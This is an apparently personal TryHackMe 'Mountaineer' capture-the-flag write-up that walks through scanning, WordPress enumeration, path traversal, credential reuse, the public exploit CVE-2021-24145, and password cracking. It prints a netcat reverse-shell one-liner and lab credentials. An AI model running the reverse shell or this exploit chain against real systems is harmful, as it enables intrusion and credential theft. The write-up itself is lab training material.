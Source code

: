 ```yaml
---
title: Mountaineer
date: 2024-10-22
tags: [tryhackme, ctf]
author: nandakishor
---
```


## Mountaineer tryhackme
MOUNTAINEER
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 141106.png>)

For initial recon i used rustscan with -sCV flag
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 145602.png>)
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 145707.png>)

Port 22 (SSH): Running OpenSSH 8.9p1 on Ubuntu
Port 80 (HTTP): Running nginx 1.18.0 on Ubuntu
To gather more detailed information, I followed up with a Nmap scan on the detected ports, which provided additional details:

The SSH server uses ECDSA and ED25519 host keys.
The HTTP service is running nginx, supporting basic methods like GET and HEAD. The default nginx welcome page was displayed, suggesting no specific web application was immediately accessible.


![alt text](../assets/images/mountaineer/image.png)
I run a ffuf scan and i found wordpress directory


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 145844.png>)
This is the wordpress website, in the mean time i used ffuf to enumerate for more directories

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 150118.png>)
we can see a domain name here so add it to /etc/hosts

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 150253.png>)


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 150549.png>)
This is the website

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 151717.png>)
Use wpscan for more info, and

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 151832.png>)
we can see a theme is installed init
I used to exploit it but it didnt worked

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152126.png>)
Also we got some usernames:

ChoOyu
Everest
MontBlanc
admin
everest
montblanc
chooyu
k2

save into a text file.

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152314.png>)
we can see a image directory , capture the request

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152704.png>)
We can see a potential path traversal here


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152831.png>)
I used chat gpt to find the location of ngix that we can get some info

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152916.png>)
this is the intersting location that i found


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153018.png>)
we can see a vhost name there, add it to /etc/host file

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153105.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153156.png>)
Its a login page, it requires creds, so i tries SQL injection and other login bypass methos, nothing worked so i used the username that we got from WP scan to bypass it

k2:k2

is the usename and password

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153904.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154017.png>)

i got a password

th3_tall3st_password_in_th3_world

And another intersting mail
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154109.png>)



We already have a password and username , so i used it against wp-admin

k2:th3_tall3st_password_in_th3_world
it worked
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154338.png>)


If we have the authentication we can use the exploit CVE-2021-24145

https://github.com/Hacker5preme/Exploits/tree/main/Wordpress/CVE-2021-24145

we can download it from here

And exploit it 
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154945.png>)

we got a shell

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155014.png>)

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ip port >/tmp/f

I used this to get the reverse shell
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155208.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155239.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155405.png>)
we can see a backup file here , get into my system and analyse it

http.server method doesnt worked so i used nc method to transfer file

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160201.png>)
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160311.png>)

I used john to crack the password

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160335.png>)

But the rockyou is't working for me , and its taking too much time,
so i created a custom wordlist to crack it

We can use tools like Crunch,cewl, cupp to do this,

i used cupp , Because 
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160856.png>)

this format looks similar to the cupp

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161146.png>)
we got out custom wordlist

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161249.png>)

The password is cracked

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161506.png>)

Basic Commands

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161643.png>)


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161731.png>)

We got a username and password , its probaly for ssh
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161827.png>)

